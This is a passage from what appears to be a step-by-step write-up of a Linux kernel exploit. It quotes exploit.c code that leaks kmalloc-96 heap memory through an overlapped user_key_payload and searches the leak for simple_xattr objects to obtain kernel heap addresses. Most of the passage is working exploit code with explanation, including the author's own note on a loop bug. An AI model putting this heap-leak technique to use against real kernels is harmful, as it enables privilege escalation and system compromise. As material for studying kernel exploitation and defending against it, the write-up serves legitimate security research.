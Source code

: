- After this step, `struct user_key_payload` object is overlapped with `struct simple_xattr` object and other free slots in kmalloc-96 slab are filled with `struct simple_xattr` objects.

### Step4.5: Leak kmalloc-96 heap
- [exploit.c#L725](./exploit.c#L725):

```c
if ((leak_size = user_key_payload_read(read_kmalloc_96_key, leak_buffer, sizeof (leak_buffer))) < 0)
  return 0;
```

### Step4.6: Search for at least 2 `struct simple_xattr` objects and save the results
- [exploit.c#L728](./exploit.c#L728):

```c
leak_simple_xattrs = malloc(sizeof(*leak_simple_xattrs));
leak_simple_xattrs->attrs = calloc(m->len, sizeof(struct simple_xattr_attribute *)); 
leak_simple_xattrs->live_on_heap = KMALLOC_96;
leak_simple_xattrs->offsets_to_leak = calloc(m->len, sizeof(int));
leak_simple_xattrs->key_to_read = read_kmalloc_96_key;
leak_simple_xattrs->cnt = 0;
leak_simple_xattrs->size_to_read = leak_size;
```
- [exploit.c#L131](./exploit.c#L131):

```c
struct simple_xattr_leak_result {
  struct simple_xattr_attribute **attrs;
  int cnt;
  int live_on_heap;
  key_serial_t key_to_read;
  int size_to_read;
  int *offsets_to_leak;
};
```

- I use `leak_simple_xattrs` to store data needed to leak address of future allocated `struct simple_xattr`.
- `attrs` will be used to get the filename to allocate `struct simple_xattr` on.
- `live_on_heap`: the heap size i chose to leak.
- `key_to_read`: access victim `struct user_key_payload` object which the exploit use to leak heap.
- `offsets_to_leak`: save the offsets in leak buffer that represent the currently leaked `struct simple_xattr` objects.

- [exploit.c#L736](./exploit.c#L736):

```c
void *scan = skip_user_key_payload(leak_buffer, KMALLOC_96);
for (int i = 0; i < leak_size - USER_KEY_PAYLOAD_STRUCT_SIZE; i += SIMPLE_XATTR_STRUCT_SIZE) { // coding mistake. Should be `i += KMALLOC_96`. Luckily i define SIMPLE_XATTR_STRUCT_SIZE to 32, so eventually the exploit scan at the next kmalloc_96 object.
  struct simple_xattr *xattr = scan + i;
  if (is_data_look_like_simple_xattr(xattr, payload_size, pattern, strlen(pattern))) {
    //dump_simple_xattr(xattr);
    int x = simple_xattr_manager_lookup(m, xattr);
    if (x >= 0) {
      leak_simple_xattrs->attrs[leak_simple_xattrs->cnt] = m->attrs[x];
      leak_simple_xattrs->offsets_to_leak[leak_simple_xattrs->cnt] = i;
      leak_simple_xattrs->cnt++;
      if (leak_simple_xattrs->cnt >= 2)
        found_simple_xattr = true;
    }
  }
}
```
